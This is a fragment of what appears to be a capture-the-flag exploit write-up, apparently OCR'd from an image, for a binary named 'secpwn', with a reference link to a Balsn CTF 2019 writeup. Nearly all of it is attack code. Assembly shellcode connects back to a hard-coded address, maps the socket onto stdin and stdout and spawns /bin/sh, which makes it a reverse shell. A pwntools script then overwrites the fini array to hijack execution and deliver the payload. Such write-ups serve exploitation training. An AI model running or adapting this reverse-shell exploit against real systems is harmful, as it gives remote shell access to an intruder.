 ```python
		//connect
		push rax
		pop rdi
		mov rcx,0x88e60f6a11270002
		push rcx
		mov rsi,rsp
		mov dl,0x10
		mov al,42
		syscall
		//dup2(fd,0)
		xor rsi,rsi
		mov al,33
		syscall
		//dup2(fd,1)
		inc rsi
		mov al,33
		syscall
		//execve("/bin/sh",0,0)
		mov rcx,0x68732f6e69622f
		push rcx
		mov rdi,rsp
		dec rsi
		xor rdx,rdx
		mov al,59
		syscall
	''')
	payload += reverse_shell
	p.sendline(payload)
	cmd(6)
	p.recvuntil("Addr: ")
	# fini array
	p.send(str(ld+0x2c190+0xa8))
	p.recvuntil("Data: ")
	# p.send(p64(elf.address+0x2f8)[:6])
	p.send(p64(elf.address+0x4020)[:6])
	cmd(10)
	p.interactive()
	
if __name__ == "__main__":
	libc = ELF("./libc.so.6",checksec=False)
	elf = ELF("./secpwn",checksec=False)
	main(args['REMOTE'])

```

参考链接：

[https://ex-origin.github.io/2019/10/08/Balsn-CTF-2019-PWN-writeup/#more](https://ex-origin.github.io/2019/10/08/Balsn-CTF-2019-PWN-writeup/#more)
